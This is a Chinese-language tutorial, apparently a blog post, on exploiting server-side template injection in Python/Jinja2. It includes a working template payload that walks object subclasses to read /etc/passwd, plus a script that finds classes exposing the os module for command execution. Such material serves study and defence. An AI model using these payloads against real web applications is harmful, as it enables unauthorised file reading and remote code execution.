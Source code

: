

使用dir来看一下file这个子类的内置方法：

```
dir(().__class__.__bases__[0].__subclasses__()[40])
```

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903162108171-343241811.png)

将要读取的文件传进入并使用readlines()方法读取，就相当于：

```
file('joker.txt').readlines()
```

可以在python交互终端中尝试输出：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903185622152-2036123666.png)

再使用jinja2的语法封装成可解析的样子：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='file' %}
{{ c("/etc/passwd").readlines() }}
{% endif %}
{% endfor %}
```

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903162635283-101719007.png)

不过我这边一直没有读取成功，原因是：**python3已经移除了file。所以利用file子类文件读取只能在python2中用。**

docker容器默认使用python3版本

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903163434739-57279547.png)

### 用内置模块执行命令

上面的实例中我们使用dir把内置的对象列举出来，其实可以用__globals__更深入的去看每个类可以调用的东西（包括模块，类，变量等等），如果有os这种可以直接传入命令，造成命令执行



```
#coding:utf-8search = 'os'   #也可以是其他你想利用的模块
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass 
```



![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903164854386-1155449135.png)
